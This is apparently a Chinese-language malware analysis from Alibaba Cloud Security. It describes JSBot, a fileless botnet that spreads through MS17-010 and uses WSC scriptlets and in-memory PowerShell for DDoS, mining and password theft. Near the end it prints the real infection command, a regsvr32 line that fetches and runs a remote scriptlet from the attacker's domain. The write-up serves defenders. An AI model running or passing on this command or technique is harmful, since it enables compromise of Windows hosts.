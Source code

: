 > 原文链接: https://www.anquanke.com//post/id/249104 


# JSBot无文件攻击分析


                                阅读量   
                                **33966**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t016cc852e99271d391.png)](https://p4.ssl.qhimg.com/t016cc852e99271d391.png)



## 概述

近日，阿里云安全监测到一种利用Javascript无文件技术实现C&amp;C通信的新型僵尸网络，其核心交互无文件落盘并由JS加载下载Powershell脚本内存执行各类恶意操作，由于核心使用了WSC技术我们将其命名为JSBot。

阿里云安全专家分析发现，该僵尸网络利用永恒之蓝漏洞进行扫描入侵，通过WSC(Windows Scripting Component)技术下载并执行核心Powershell脚本，实现文件下载、上传、对外DDoS、挖矿、盗取密码等功能，对主机、用户资产危害极大。

阿里云安全持续对该BOT进行监控，发现近期传播有所上升，提醒广大用户注意防护。

[![](https://p4.ssl.qhimg.com/t0178cea24554993acc.png)](https://p4.ssl.qhimg.com/t0178cea24554993acc.png)



## 传播手段

JSBOT通过MS17-010漏洞进行入侵和传播，利用WSC技术实现无文件化的维持和后续攻击，通过从云端下载经过编码的二进制文件，实现对外DDoS和挖矿行为，通过Powershell核心函数实现对失陷主机的下载、发送文件、WMIExec等功能。

[![](https://p3.ssl.qhimg.com/t0135ca252f9335843c.jpg)](https://p3.ssl.qhimg.com/t0135ca252f9335843c.jpg)

### <a class="reference-link" name="%E9%98%B6%E6%AE%B5%E5%88%86%E6%9E%90"></a>阶段分析

[![](https://p3.ssl.qhimg.com/t01395c823f545ac32e.jpg)](https://p3.ssl.qhimg.com/t01395c823f545ac32e.jpg)



## 详细分析

JSBot通过MS17-010漏洞入侵主机内部后，通过进行svchost.exe执行命令派生cmd进程。该命令从域名cat.xiaoshabi.nl下载一段XML文件，该文件使用JavaScript编写的COM组件WSC(Windows Scripting Component)，由于脚本文件不能被编译，只能运行于Windows系统的脚本宿主机WSH(Windows Scripting Host)中，全程文件不落盘，这也给文件查杀、木马清理带来了难度。其执行的命令如下

`C:\\Windows\\system32\\regsvR32.EXE /u/s/i:http://cat.xiaoshabi.nl/networks.xsl scrobj.dll`
